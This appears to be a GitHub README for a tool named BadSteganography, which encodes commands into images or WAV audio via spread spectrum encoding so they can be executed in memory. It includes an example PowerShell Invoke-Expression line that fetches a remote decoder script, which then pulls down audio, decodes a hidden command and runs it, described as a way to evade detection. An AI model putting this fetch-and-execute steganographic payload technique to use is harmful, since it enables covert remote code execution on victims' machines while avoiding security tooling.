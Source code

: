 # BadSteganography
Bad Steganography is a repo for encoding commands into images or wav files to execute such in memory. 

# Spread Spectrum Encoding
The steganography method used in the provided script is a form of audio steganography known as spread spectrum encoding. In spread spectrum encoding, the hidden message is embedded in a way that spreads its energy across the frequency spectrum of the carrier signal. This makes the hidden message less susceptible to detection and removal by typical audio processing techniques.

# How it works (Spread Spectrum Encoding \Audio)
In this specific implementation, the amplitude of the audio samples is modified to represent the binary values of the message. By altering the amplitude, the hidden message is encoded into the audio signal, which can later be extracted using the same method.

# Example
This default payload grabs the contents of the decoder, which then downloads the audio to memory, decodes the message, and executes the command with Invoke-Expression
```
iex(https://raw.githubusercontent.com/CharlesTheGreat77/BadSteganography/main/spread_spectrum_decode.txt).Content
```
